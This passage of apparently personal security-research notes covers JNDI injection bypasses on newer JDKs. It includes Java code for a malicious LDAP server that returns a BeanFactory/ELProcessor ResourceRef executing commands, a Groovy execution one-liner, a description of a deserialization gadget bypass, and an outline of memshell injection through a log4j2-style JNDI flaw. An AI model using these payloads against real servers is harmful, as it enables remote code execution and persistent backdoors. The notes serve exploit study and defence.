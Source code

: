 ```java
```
So we can include a string reference to the evil reference with attribute type "x" and put EL expression in the content. As a result, the `propName` will be "x" and `valueArray` will contain our EL expression. 

We are writing our own malicious LDAP server (or RMI) that responds with a crafted `ResourceRef` object:
```java
String payloadTemplate = "{" +  
        "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +  
        ".newInstance().getEngineByName(\"JavaScript\")" +  
        ".eval(\"{replacement}\")" +  
        "}";
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",  
        true, "org.apache.naming.factory.BeanFactory", null);  
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", payloadTemplate.replace("{replacement}", "new java.lang.ProcessBuilder['(java.lang.String[])'](['calc.exe']).start()")));

Entry entry = new Entry();
e.addAttribute("javaClassName", "java.lang.String"); //could be any
e.addAttribute("javaSerializedData", Util.serialize(ref));

result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```


### Bypass using Groovy
Use the same method as [[#Tomcat Bypass using `BeanFactory`|ELProcessor]], ELProcessor can be replaced by Groovy, but this require the target to include Groovy in classpath.
We can exploit by using the method `evaluate` within `groovy.lang.GroovyShell` to execute arbitrary Groovy shell code:
```java
['cmd','/C', 'calc.exe'].execute();
```

### Bypass using LDAP Serialized Object
We can use LDAP serialized object entry to contain malicious gadgets. If the client has the vulnerable class in classpath, we will perform a deserialization attack. There is no JDK version restriction on this bypass method.

---

# JNDI exploit tool
> *Imagine you have found a log4j2 deserializable  vulnerability of an API, you can make the victim server to request an arbitrary JNDI URI, you want to inject a memshell using this breach. *

## Structure and steps(take `JNDIExploit` project as example)
In general, a JNDI exploit tool can divide into three parts: 
- Choose the way to inject evil class:
	- By register LDAP `javaSerializedData` entry and directly upload serialized evil class
	- By LDAP `codebase`, remote requesting evil class file
	- Using `BeanFactory` vulnerability, load evil class bytes by `EL` expression
- Define evil class (namely, the memshell loader):
	- Memshell loader should load memshell byte code by reflectively call `defineClass` method of classloader in current context.
- Choose the type of memshell:
	- e.g. by Tomcat Filter/Servlet/Valve/Listener, or Spring Interceptor/Controller, etc.


[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)
